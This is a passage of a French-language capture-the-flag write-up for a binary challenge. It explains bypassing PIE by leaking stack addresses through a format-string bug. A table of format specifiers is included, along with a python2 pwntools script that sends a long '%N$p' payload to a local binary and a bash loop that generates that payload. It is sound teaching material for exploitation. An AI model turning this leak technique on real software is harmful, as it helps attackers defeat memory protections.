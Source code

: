 Afin de contourner la PIE, il faut faire fuiter la mémoire grâce à l'utilisation du mécanisme "format string". Ces "chaines de format" permettent aux développeurs de pouvoir formater leur variable pendant l'affichage.

Parmis celles qui vont nous intéresser, il est possible de retrouver: 

| Format string | Usage |
| ------------- | ----- |
| %s / %x       | Permet de lire une donnée d'un pointeur connu sous forme de chaine de carctère ou hexa  |
| %n            | Permet d'écrire de la donnée à un pointeur connu  |
| %p            | Permet d'afficher les pointeurs sur la stack      |

Les deux premiers types de chaines de format permettent de lire et écrire à un pointeur connu. Or, ce n'est pas le cas ici. C'est pourquoi on va utiliser `%p`.

Pour tout ce qui est exploitation de binaire et gestion des bytes, python2 reste plus simple à utiliser. De plus, la librairie "pwntools" offre plus de possibilité en python2.

```python
#!/usr/bin/python2

from pwn import *

FORMATSTRING = "37:%37$p 38:%38$p 39:%39$p 40:%40$p 41:%41$p 42:%42$p 43:%43$p 44:%44$p 45:%45$p 46:%46$p 47:%47$p 48:%48$p 49:%49$p 50:%50$p 51:%51$p 52:%52$p 53:%53$p 54:%54$p 55:%55$p 56:%56$p 57:%57$p 58:%58$p 59:%59$p 60:%60$p 61:%61$p 62:%62$p 63:%63$p 64:%64$p"

p = process('./pwn1')
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:')
print(leak.split(' '))
raw_input("gdb attach")
p.interactive()
```

Le gros payload `FORMATSTRING` est utile pour identifier rapidement quel bloque nous intéresse. Pour le générer, il est possible d'utiliser cette petit boucle bash:

```bash
for i in $(seq 1 64); do echo "$i:%$i\$p"; done | tr '\n' ' ' 
```

La fonction "raw_input" permet de bloquer l'exécution du programme et laisse le temps à l'attaquant de s'attacher au process.

![](/lib/images/writeups/german_fcsc/pwn//upload_b5159cd31594861ef3dde8be193143a7.png)


On cherche une adresse de fonction sur la stack, donc ça peut être l'adresse de "main", "welcome" ou "AAAAAAAA". Etant donné que la fonction "win" n'est pas appelée, il n'est pas possible de la trouver sur la stack en temps normal.

Le plugin "pwndbg" pour gdb est vraiment pratique pour récupérer tout un tas d'information sur le contexte d'exécution d'un binaire.
